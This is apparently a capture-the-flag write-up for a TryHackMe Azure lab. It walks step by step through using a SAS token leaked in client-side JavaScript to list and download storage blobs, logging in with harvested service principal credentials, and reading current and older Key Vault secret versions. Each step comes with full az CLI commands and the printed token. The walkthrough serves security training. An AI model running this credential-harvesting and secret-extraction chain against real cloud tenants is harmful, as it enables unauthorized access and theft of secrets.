# TryHackMe Hacker Holidays - Day 9

**Room:** CryptoCabana
**Room URL:** https://tryhackme.com/room/hh-cryptocabana-f81cac95

## Introduction

This challenge focused on Azure cloud enumeration, exposed client-side secrets, unauthenticated Azure Storage access via a SAS token, and Azure Key Vault secret/version enumeration. The objective was to pivot from an anonymous web target to Azure Blob Storage, harvest service principal credentials, authenticate to Azure with them, and extract several Key Vault secrets.

## Task 1 - Azure Portal Access

I clicked the **Cloud Details** button to generate credentials for the Azure CLI and followed the step outlined in Task 1. After clicking **Join Lab**, the lab generated credentials, and I used the generated username and temporary access token to log in to the Azure portal.



I then clicked the bash shell icon in the top-right corner to open Azure Cloud Shell and selected the option indicated in Task 1.





I then ran `az account show` in the shell to validate that shell access was working correctly.



## Task 2 - Hacker Holidays: Day 9

I opened the target provided in Task 2, which loaded the following page.



Reviewing the page source, I found a reference to an `app.js` script file. Opening this JavaScript file revealed several interesting hardcoded details, including a storage account name, a backups container name, and a backup SAS token.



Using the leaked SAS token, I ran the following command to list the containers inside the Azure storage account `cryptocabanaf5scjagc`:

```bash
az storage container list \
  --account-name cryptocabanaf5scjagc \
  --sas-token "sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=ZAo05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D" \
  --output table
```

This returned three available containers: `web`, `backups`, and `vault`.



I then used the following command to list the individual blobs inside the `vault` container:

```bash
az storage blob list \
  --account-name cryptocabanaf5scjagc \
  --container-name vault \
  --sas-token "sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=ZAo05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D" \
  --output table
```

This revealed two blobs: `backup-service-account.json` and `seed_phrase.txt`.



I used the following two commands to download both blobs from the `vault` container:

```bash
az storage blob download \
  --account-name cryptocabanaf5scjagc \
  --container-name vault \
  --name "<file_name>" \
  --sas-token "sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=ZAo05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D" \
  --file vaultfile
```



```bash
az storage blob download \
  --account-name cryptocabanaf5scjagc \
  --container-name vault \
  --name "<file_name>" \
  --sas-token "sv=2022-11-02&ss=b&srt=sco&sp=rl&se=2099-12-31T23:59:59Z&st=2024-01-01T00:00:00Z&spr=https&sig=ZAo05W8KXdSLM9afYCNGogNRV2N5a6aB4dQI3LXz%2Fh0%3D" \
  --file vaultfile2
```



Running `ls` confirmed that both files had downloaded successfully.



Reviewing the first downloaded file revealed several interesting credential fields, including a client ID, client secret, and tenant ID.



Using these credentials, I authenticated as the service principal rather than as a normal user:

```bash
az login --service-principal \
--username <client_id> \
--password '<client_secret>' \
--tenant <tenant_id>
```



With service principal access established, I listed the secrets available in the Key Vault:

```bash
az keyvault secret list \
  --vault-name ccabana-kv-f5scjagc \
  --output table
```



I then read the secrets one by one. Reading `key-shard-1` revealed the first part of the flag:

```bash
az keyvault secret show \
  --vault-name ccabana-kv-f5scjagc \
  --name "<name>" \
  --query value -o tsv
```



Attempting the same approach against `key-shard-2` did not return the flag piece directly - instead it returned a note stating that the secret had been rotated after IT flagged it, and that the old value should still be recoverable if you know where to look. To find the older version, I listed the previous versions of the secret:

```bash
az keyvault secret list-versions \
  --vault-name ccabana-kv-f5scjagc \
  --name "<name>" \
  --query "[].id" -o tsv
```

This printed the available version IDs. I then read the value from the specific older version, which revealed the second part of the flag:

```bash
az keyvault secret show \
  --vault-name ccabana-kv-f5scjagc \
  --name "<name>" \
  --version "3d6492d2c6f74123bc754a9ded22b2a0" \
  --query value -o tsv
```



Finally, I read `key-shard-3` using the same approach as for `key-shard-1`, which revealed the third and final part of the flag.

```bash
az keyvault secret show \
  --vault-name ccabana-kv-f5scjagc \
  --name "<name>" \
  --query value -o tsv
```


